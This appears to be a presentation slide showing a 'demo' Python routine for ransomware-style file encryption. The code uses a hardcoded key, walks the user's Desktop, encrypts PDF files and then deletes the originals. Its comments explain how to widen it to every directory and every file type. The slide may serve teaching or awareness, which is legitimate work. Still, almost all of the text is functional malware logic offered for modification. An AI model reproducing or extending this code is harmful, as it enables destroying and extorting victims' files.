

# DEMO 2 – Basic Recursive Symmetric  Encrypt Function
key = b'\xbf\xc0\x85)\x10nc\x94\x02)j\xdf\xcb\xc4\x94\x9d(\x9e[EX\xc8\xd5\xbfI{\xa2$\x05(\xd5\x18'
#See, I'm not that mean, I only encrypt everyone on the desktop
userhome = os.path.expanduser('~')
desktop = userhome + '/Desktop/'
#Change os walk to get all directories
for root, dirs, files in  os.walk(desktop):
	for dir_ in dirs :
		for file_ in glob.glob(root+dir_+"/*"):
			filename, file_extension = os.path.splitext(file_)
			#Change to capture all teh files, just don't add .enc, you don't want be double encrypt some fiels but
			if(file_extension  == ".pdf" ):
				encrypt_file(file_, key)#decrypt_file('to_enc.txt.enc', key)
				os.remove(file_)
	break # Remove break to get all subdirectories